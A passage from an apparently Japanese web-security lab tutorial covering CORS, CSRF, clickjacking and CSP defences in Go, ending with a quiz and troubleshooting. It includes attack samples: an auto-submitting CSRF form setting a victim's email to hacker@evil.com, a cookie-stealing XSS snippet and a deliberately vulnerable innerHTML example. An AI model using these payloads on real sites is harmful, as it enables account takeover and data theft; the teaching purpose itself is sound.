    origin := r.Header.Get("Origin")

    // 許可リストに含まれるオリジンのみ許可
    allowedOrigins := map[string]bool{
        "https://example.com":       true,
        "https://www.example.com":   true,
    }

    if allowedOrigins[origin] {
        w.Header().Set("Access-Control-Allow-Origin", origin)
        // 認証情報（Cookie等）を含める場合
        w.Header().Set("Access-Control-Allow-Credentials", "true")
    }

    // クレデンシャルを含める場合、"*" は使用不可
    // Access-Control-Allow-Origin: *  ✗ 危険
    // Access-Control-Allow-Origin: https://example.com  ✓ 安全
}

// プリフライトリクエストの対応
func corsMiddleware(next http.HandlerFunc) http.HandlerFunc {
    return func(w http.ResponseWriter, r *http.Request) {
        origin := r.Header.Get("Origin")

        if origin == "https://example.com" {
            w.Header().Set("Access-Control-Allow-Origin", origin)
            w.Header().Set("Access-Control-Allow-Methods", "GET, POST, PUT, DELETE")
            w.Header().Set("Access-Control-Allow-Headers", "Content-Type, Authorization")
            w.Header().Set("Access-Control-Allow-Credentials", "true")
            w.Header().Set("Access-Control-Max-Age", "3600")
        }

        // プリフライトリクエスト（OPTIONSメソッド）には早期応答
        if r.Method == http.MethodOptions {
            w.WriteHeader(http.StatusNoContent)
            return
        }

        next(w, r)
    }
}
```

**CORS ヘッダーの重要ポイント:**

| ヘッダー                           | 説明                         | 脆弱性                     |
| :--------------------------------- | :--------------------------- | :------------------------- |
| `Access-Control-Allow-Origin`      | 許可するオリジン             | `*` は慎重に               |
| `Access-Control-Allow-Credentials` | Cookie等の送信を許可         | `true` の時は `*` 使用不可 |
| `Access-Control-Allow-Methods`     | 許可するHTTPメソッド         | 必要なメソッドのみ         |
| `Access-Control-Allow-Headers`     | 許可するリクエストヘッダー   | 必要なヘッダーのみ         |
| `Access-Control-Max-Age`           | プリフライトのキャッシュ時間 | 適切な値を設定             |

**プリフライトリクエスト（OPTIONS メソッド）:**

```text
複雑なリクエスト（PUT、DELETE、カスタムヘッダー等）の場合:

1. ブラウザが先に OPTIONS リクエストを送信
   OPTIONS /api/data HTTP/1.1
   Origin: https://example.com
   Access-Control-Request-Method: PUT

2. サーバーが許可を返す
   Access-Control-Allow-Origin: https://example.com
   Access-Control-Allow-Methods: GET, PUT, DELETE

3. ブラウザが実際の PUT リクエストを送信
   PUT /api/data HTTP/1.1
   Origin: https://example.com
```

**CORS と CSRF の関係:**

```text
[CORS がない時代]

攻撃者サイトから fetch() → リクエスト送信可能
                         → Cookie も自動付与
                         → レスポンスを読める
                         → CSRF 攻撃が容易

[CORS がある場合]

攻撃者サイトから fetch() → リクエスト送信可能
                         → Cookie も自動付与（CORSの外）
                         → レスポンスがブロックされる
                         → 攻撃者はレスポンスを読めない

※注意: レスポンスを読めなくても、POST/DELETE等の副作用は発生
   → CSRF トークンや SameSite Cookie は依然として必要
```

---

### CSRF と CORS の保護目的の違い

**本質的な違い:**

|                    | **CSRF**                                     | **CORS**                                     |
| :----------------- | :------------------------------------------- | :------------------------------------------- |
| **主な対象**       | **リクエストの送信**                         | **レスポンスの読み取り**                     |
| **保護対象**       | **サーバー側**（意図しない操作の実行を防ぐ） | **クライアント側**（機密データの盗難を防ぐ） |
| **攻撃の内容**     | なりすまして**操作**させる                   | 別サイトから**データを窃取**する             |
| **ブラウザの役割** | Cookieを自動付与（攻撃を助ける側面）         | レスポンス読み取りをブロック（防御する側面） |

**CSRF の保護目的:** 「誰がリクエストを送ったか」を検証する

```text
攻撃者: ユーザーになりすまして「パスワード変更」リクエストを送りたい
         ↓
サーバー: 本当にユーザー本人の操作か確認する必要がある
         ↓
CSRFトークン: フォームを見たユーザーしか持っていない秘密の値
         ↓
結果: 攻撃者サイトにはトークンがない → リクエスト拒絶 ✓
```

**CORS の保護目的:** 「誰がレスポンスを読めるか」を制御する

```text
攻撃者のJavaScript: fetch('https://victim.com/api/profile')
         ↓
ブラウザ: Cookie付きでリクエストは送信する
         ↓
サーバー: 認証成功 → 機密データを含むレスポンス
         ↓
【ここがCORSの分岐点】
         ↓
CORS不許可: ブラウザがレスポンスをブロック ✓
          → JavaScriptはデータを読めない

CORS誤設定: ブラウザがレスポンスをJavaScriptに渡す ✗
          → 攻撃者が機密データを窃取
```

**相互補完的な関係:**

```text
【CSRF なし】
攻撃者サイトのフォーム → 不正なリクエスト送信 → サーバーが実行
                            → データ変更されてしまう ✗

【CORS なし】
攻撃者サイトの fetch → リクエスト送信 → サーバーが実行
                    → レスポンス読めないが、副作用は発生 ✗

【両方必要】
CSRF: リクエストの真正性を保証（操作の防御）
CORS: レスポンスの読み取りを制限（情報の防御）
```

---

### プリフライトリクエストだけで CSRF を防げない理由

**結論:** いいえ、プリフライトリクエスト（OPTIONS メソッド）は CSRF を完全には防げません。

**プリフライトが発生する条件:**

プリフライトは**「複雑なリクエスト」**の場合のみ発生します：

```javascript
// ✅ プリフライト発生
fetch(url, {
  method: "PUT", // PUT/DELETE/PATCH
  headers: { "X-Custom": "value" } // カスタムヘッダー
});

// ❌ プリフライトなし（シンプルなリクエスト）
fetch(url, {
  method: "POST",
  headers: { "Content-Type": "application/x-www-form-urlencoded" }
});
```

**シンプルな POST リクエストの条件:**

- メソッド：GET, HEAD, POST のみ
- ヘッダー：`Accept`, `Accept-Language`, `Content-Language`, `Content-Type` のみ
- `Content-Type`：`application/x-www-form-urlencoded`, `multipart/form-data`, `text/plain` のみ

**CSRF 攻撃はプリフライトを回避できる:**

攻撃者は**フォーム送信**を使います：

```html
<!-- 攻撃者サイトのHTML -->
<form action="https://victim.com/update-email" method="POST">
  <input type="hidden" name="email" value="hacker@evil.com" />
</form>
<script>
  document.forms[0].submit(); // 自動送信
</script>
```

このリクエストは：

```text
POST /update-email HTTP/1.1
Host: victim.com
Content-Type: application/x-www-form-urlencoded
Cookie: session_id=...  ← 自動付与

email=hacker@evil.com
```

**プリフライトなし**でそのまま送信されます → CORS チェックもバイパス

**攻撃方法ごとの比較:**

| 攻撃方法                     | プリフライト発生？ | CORSで防げる？ | CSRFトークンで防げる？ |
| :--------------------------- | :----------------: | :------------: | :--------------------: |
| **フォーム POST**            | ❌ なし            | ❌ 不可        | ✅ 可能                |
| **fetch + PUT/DELETE**       | ✅ あり            | ✅ 可能        | ✅ 可能                |
| **fetch + カスタムヘッダー** | ✅ あり            | ✅ 可能        | ✅ 可能                |
| **imgタグによるGET**         | ❌ なし            | ❌ 不可        | ⚠️ 限次的              |

**まとめ:**

CORS + プリフライトは以下の理由で CSRF 対策として不十分です：

1. **フォーム送信による攻撃を防げない**
   - 最も一般的な CSRF 攻撃ベクトル
   - プリフライトなしでリクエストが送信される

2. **GET リクエストによる攻撃を防げない**
   - `` など
   - GET は常にプリフライトなし

3. **SameSite Cookie がないとリスクが残る**
   - プリフライトありのリクエストでも Cookie は送信される
   - 読み取りは防げても、副作用（操作実行）は防げない

**したがって、CORS は「情報漏洩対策」としてのみ機能し、CSRF 防御には CSRF トークンまたは SameSite Cookie が必須です。**

---

**まとめ:**

1. **CORS はブラウザの保護**: 異なるオリジンからのレスポンス読み取りを制限
2. **CORS は CSRF を完全には防げない**: リクエスト自体は送信される
3. **`Access-Control-Allow-Origin: *` は慎重に**: 認証が必要な API では使用禁止
4. **プリフライトを忘れず**: OPTIONS メソッドに適切に応答
5. **CSRF 対策は別途必要**: CSRF トークンまたは SameSite Cookie が必須

---

### クリックジャッキング対策

#### 1. X-Frame-Options ヘッダー

```go
func followHandler(w http.ResponseWriter, r *http.Request) {
    // ✅ iframe埋め込みを完全に禁止
    w.Header().Set("X-Frame-Options", "DENY")

    // または、同一オリジンのみ許可
    // w.Header().Set("X-Frame-Options", "SAMEORIGIN")

    fmt.Fprintf(w, "<h1>Follow @hacker</h1>...")
}
```

**ヘッダーの値と効果:**

| 値               | 効果                             |
| :--------------- | :------------------------------- |
| `DENY`           | すべてのiframe埋め込みを拒否     |
| `SAMEORIGIN`     | 同一オリジンのみ許可             |
| `ALLOW-FROM uri` | 特定のオリジンのみ許可（非推奨） |

#### 2. Content-Security-Policy (CSP)

```go
func followHandler(w http.ResponseWriter, r *http.Request) {
    // ✅ frame-ancestors でiframe埋め込みを制御
    w.Header().Set("Content-Security-Policy",
        "frame-ancestors 'self';")  // 同一サイトのみ許可

    // 完全に禁止する場合
    w.Header().Set("Content-Security-Policy",
        "frame-ancestors 'none';")
}
```

**CSP の検証:**

```bash
# ブラウザの開発者ツールで確認
# Console: "Refused to display ... in a frame because it set 'X-Frame-Options' to 'deny'."
```

---

### CSP (Content Security Policy) 詳解

#### CSP とは何か？

CSP は、ブラウザに対して「このページで許可するリソース（スクリプト、画像、スタイルなど）の出所」を宣言する HTTP レスポンスヘッダーです。XSS の被害を大幅に軽減できる、強力な防御レイヤーです。

**CSP がない場合:**

```text
ブラウザ: ページ内の <script> タグをすべて実行する
         → 攻撃者が注入した <script>alert(document.cookie)</script> も実行されてしまう
```

**CSP がある場合:**

```text
サーバー: Content-Security-Policy: script-src 'self'
ブラウザ: 「このページで実行してよいスクリプトは、同一オリジン(self)から読み込まれたものだけ」
         → インラインの <script> タグはブロック
         → 攻撃者が注入したスクリプトは実行されない ✓
```

#### CSP の仕組み

```text
1. サーバーが HTTP レスポンスヘッダーでポリシーを宣言
   Content-Security-Policy: script-src 'self'; style-src 'self'

2. ブラウザがページの読み込み時にポリシーを評価
   - 各リソースの読み込み先をチェック
   - ポリシーに違反するリソースはブロック

3. 違反があった場合
   - コンソールにエラーメッセージを出力
   - (設定していれば) 違反レポートを送信
```

#### 主要ディレクティブ一覧

| ディレクティブ    | 制御対象                     | 例                                             |
| :---------------- | :--------------------------- | :--------------------------------------------- |
| `script-src`      | JavaScript の読み込み元      | `'self'`, `'unsafe-inline'`, `'nonce-abc'`     |
| `style-src`       | CSS の読み込み元             | `'self'`, `'unsafe-inline'`                    |
| `img-src`         | 画像の読み込み元             | `'self'`, `https://images.example.com`         |
| `font-src`        | フォントの読み込み元         | `'self'`, `https://fonts.googleapis.com`       |
| `connect-src`     | fetch/XHR/WebSocket の接続先 | `'self'`, `https://api.example.com`            |
| `frame-src`       | iframe の読み込み元          | `'self'`, `https://trusted.com`                |
| `frame-ancestors` | このページを埋め込める親     | `'none'`, `'self'`（クリックジャッキング対策） |
| `default-src`     | 上記のデフォルト値           | `'self'`                                       |
| `object-src`      | Flash/Java 等のプラグイン    | `'none'`（推奨）                               |
| `base-uri`        | `<base>` タグの制限          | `'self'`                                       |
| `form-action`     | フォームの送信先             | `'self'`                                       |

#### ソース値の意味

| ソース値          | 意味                                    | リスク                   |
| :---------------- | :-------------------------------------- | :----------------------- |
| `'self'`          | 同一オリジンのみ許可                    | 安全（推奨）             |
| `'none'`          | 一切許可しない                          | 最も安全                 |
| `'unsafe-inline'` | インラインスクリプト/スタイルを許可     | 危険（XSS 軽減効果なし） |
| `'unsafe-eval'`   | `eval()` 等を許可                       | 危険                     |
| `'nonce-<value>'` | 指定 nonce 属性を持つスクリプトのみ許可 | 安全（推奨）             |
| `'sha256-<hash>'` | ハッシュに一致するスクリプトのみ許可    | 安全                     |
| `https://...`     | 指定 URL のみ許可                       | 中程度                   |
| `*`               | すべて許可                              | 危険                     |

#### 段階的な CSP 導入

**ステップ1: レポートのみモード（影響なし）**

```go
// Content-Security-Policy-Report-Only はブロックせず、違反をレポートするだけ
w.Header().Set("Content-Security-Policy-Report-Only",
    "default-src 'self'; " +
    "report-uri /csp-report")

// 本番環境でまずこれを設定し、違反ログを収集してから実際の CSP に移行
```

**ステップ2: 緩やかなポリシー（移行期）**

```go
// インラインスクリプトを一時的に許可（既存コードの修正中）
w.Header().Set("Content-Security-Policy",
    "default-src 'self'; " +
    "script-src 'self' 'unsafe-inline'; " +  // 段階的に削除
    "style-src 'self' 'unsafe-inline'; " +
    "img-src 'self' data:; " +
    "frame-ancestors 'none'")
```

**ステップ3: 厳格なポリシー（nonce ベース・推奨）**

```go
import (
    "crypto/rand"
    "encoding/base64"
)

func generateNonce() string {
    b := make([]byte, 16)
    rand.Read(b)
    return base64.StdEncoding.EncodeToString(b)
}

func secureHandler(w http.ResponseWriter, r *http.Request) {
    nonce := generateNonce()

    w.Header().Set("Content-Security-Policy",
        "default-src 'none'; " +
        "script-src 'nonce-" + nonce + "'; " +     // nonce 付きスクリプトのみ許可
        "style-src 'self'; " +
        "img-src 'self'; " +
        "connect-src 'self'; " +
        "frame-ancestors 'none'; " +
        "base-uri 'self'; " +
        "form-action 'self'")

    // HTML 内で nonce 属性を付与
    fmt.Fprintf(w, `
        <script nonce="%s">
            // このスクリプトだけが実行される
            // 攻撃者が注入した <script> タグには nonce がない → ブロック
            console.log('legitimate script');
        </script>
    `, nonce)
}
```

**nonce による防御の仕組み:**

```text
サーバーが生成: <script nonce="abc123">...</script>
CSP ヘッダー:  script-src 'nonce-abc123'

攻撃者が注入: <script>alert('XSS')</script>
               ↑ nonce 属性がない → ブラウザがブロック ✓

<script nonce="abc123">alert('XSS')</script>
               ↑ 攻撃者は nonce 値を知りえない → ブロック ✓
```

#### CSP が防ぐ攻撃と防げない攻撃

| 攻撃                         | CSP で防げる？                  | 理由                                        |
| :--------------------------- | :------------------------------ | :------------------------------------------ |
| インライン `<script>` XSS    | `script-src 'self'` で防ぐ      | インラインスクリプトがブロックされる        |
| 外部ドメインの悪意スクリプト | `script-src 'self'` で防ぐ      | 許可外ドメインがブロックされる              |
| `eval()` ベースの XSS        | `unsafe-eval` なしで防ぐ        | `eval()` がブロックされる                   |
| クリックジャッキング         | `frame-ancestors 'none'` で防ぐ | iframe 埋め込みがブロックされる             |
| CSRF                         | 防げない                        | CSRF はフォーム送信でありスクリプトではない |
| `` XSS      | `unsafe-inline` なしで防ぐ      | インラインイベントハンドラがブロックされる  |

#### 実装例: Go サーバーでの CSP ミドルウェア

```go
func cspMiddleware(next http.Handler) http.Handler {
    return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
        nonce := generateNonce()
        r.Header.Set("X-CSP-Nonce", nonce) // ハンドラーで参照可能に

        w.Header().Set("Content-Security-Policy",
            "default-src 'none'; " +
            "script-src 'nonce-" + nonce + "'; " +
            "style-src 'self'; " +
            "img-src 'self'; " +
            "connect-src 'self'; " +
            "frame-ancestors 'none'; " +
            "base-uri 'self'; " +
            "form-action 'self'; " +
            "report-uri /csp-report")

        next.ServeHTTP(w, r)
    })
}
```

#### CSP 違反の確認方法

```text
Chrome DevTools:
  Console タブ → "Refused to execute inline script because it violates
                   the following Content Security Policy directive: 'script-src'"

Network タブ → "csp-report" への POST リクエストを確認

レポート内容の例:
{
  "csp-report": {
    "document-uri": "http://localhost:8080/xss/stored",
    "violated-directive": "script-src 'self'",
    "blocked-uri": "inline"
  }
}
```

---

### 防御策チェックリスト

| 脆弱性                   | 項目                                         | チェック |
| :----------------------- | :------------------------------------------- | :------- |
| **XSS**                  | ユーザー入力をエスケープしているか           | □        |
|                          | `html/template` 等の自動エスケープ機能を使用 | □        |
|                          | HttpOnly Cookie を設定                       | □        |
|                          | CSP を設定してインラインスクリプトを制限     | □        |
| **CSRF**                 | CSRF トークンを実装                          | □        |
|                          | SameSite 属性を Lax or Strict に設定         | □        |
|                          | 重要操作には再認証を要求                     | □        |
| **クリックジャッキング** | X-Frame-Options ヘッダーを設定               | □        |
|                          | CSP frame-ancestors を設定                   | □        |

---

## 発展的な攻撃手法

### DOM-based XSS

従来の XSS とは異なり、サーバー側のレスポンスには脆弱性がなく、クライアント側の JavaScript で DOM 操作を行う際に発生します。

```javascript
// 脆弱なコード例
const hash = location.hash.substring(1); // URLの#以降を取得
document.getElementById("output").innerHTML = hash; // エスケープなしで挿入

// 攻撃URL:
// http://victim.com/#
```

**対策:**

- `innerHTML` の代わりに `textContent` や `innerText` を使用
- DOMPurify 等のサニタイズライブラリ使用

### Self-XSS (自己XSS)

攻撃者が「アクセス権限が必要」「特別なコマンド」と騙して、ユーザー自身に悪意のあるスクリプトを実行させます。

```text
攻撃者: 「このコードをコンソールに貼り付けると、アカウントがアップグレードされます！」
ユーザー: (実行してしまう)
→ Cookieが攻撃者に送信される
```

**対策:**

- ユーザー教育（不審なコードを実行しない）
- 重要操作には再認証を要求

---

## 演習後の理解度確認

### 確認クイズ

1. **格納型XSSと反射型XSSの違いは何ですか？**
   - <details><summary>解答</summary>格納型は攻撃コードがサーバーに保存され、ページを閲覧するたびに実行されます。反射型はURLパラメータ等を経由して即座に実行され、保存されません。</details>

2. **なぜCSRF攻撃でCookieが送信されるのですか？**
   - <details><summary>解答</summary>ブラウザの仕様により、同一オリジンへのリクエストにはCookieが自動的に付与されるためです。SameSite属性がない場合、他サイトからのリクエストでも送信されます。</details>

3. **X-Frame-Options: DENY と SAMEORIGIN の違いは？**
   - <details><summary>解答</summary>DENYはすべてのiframe埋め込みを拒否します。SAMEORIGINは同一オリジンからの埋め込みのみ許可します。</details>

4. **HttpOnly属性が設定されたCookieは、JavaScriptから読み取れますか？**
   - <details><summary>解答</summary>いいえ、HttpOnly属性が設定されたCookieは`document.cookie`で読み取ることができません。XSSによるCookie盗難を防げます。</details>

5. **Origin Reflection（Origin ヘッダーをそのまま返す設定）が危険な理由は何ですか？**
   - <details><summary>解答</summary>Origin Reflection により、あらゆるオリジンからのリクエストが許可されてしまうためです。`Access-Control-Allow-Credentials: true` と組み合わさると、攻撃者サイトからCookie付きリクエストで機密データを窃取できます。</details>

---

## 片付け

各ターミナルで `Ctrl+C` を押してサーバーを停止してください。

---

## トラブルシューティング

### Q: アラートが表示されない

**A:** ブラウザの XSS Auditor 等が攻撃をブロックしている可能性があります。

- Chrome: `--disable-xss-auditor` フラグ付きで起動
- 開発者ツールの Console でエラーを確認

### Q: CSRF攻撃後、メールアドレスが変更されない

**A:** 以下を確認してください：

- ログインして Cookie がセットされているか（開発者ツール → Application → Cookies）
- 攻撃者サイトのフォームアクション URL が正しいか

### Q: クリックジャッキングのiframeが表示されない

**A:** ブラウザの iframe ブロック機能が動作している可能性があります。

- 被害者サイト（localhost:8080）と攻撃者サイト（localhost:8081）が両方起動しているか確認
- 攻撃者サイトの iframe src が `http://localhost:8080/follow` を指しているか確認

---

## 参考文献

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [IPA: 安全なウェブサイトの作り方](https://www.ipa.go.jp/security/vuln/websecurity.html)
- [MDN: Content Security Policy (CSP)](https://developer.mozilla.org/ja/docs/Web/HTTP/CSP)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
